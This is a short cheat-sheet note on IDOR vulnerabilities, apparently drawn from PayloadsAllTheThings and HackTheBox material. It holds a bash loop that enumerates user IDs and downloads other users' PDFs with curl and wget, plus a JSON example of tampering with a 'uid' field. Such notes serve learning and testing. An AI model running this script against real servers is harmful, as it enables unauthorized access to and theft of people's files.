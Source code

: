 ## IDOR - Insecure Direct Object References

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References

Basic use case : 

```bash
download.php?file_id=123
```

Script example to get all file when IDOR is identified
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

API use case : 
```json
{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "foo": "bar",
    "foo": "bar"
}
```
We can change the value of the “uid” parameter.
We can also play with HTTP methods to potentially obtain other responses.

## IDOR Prevention
https://academy.hackthebox.com/module/134/section/1202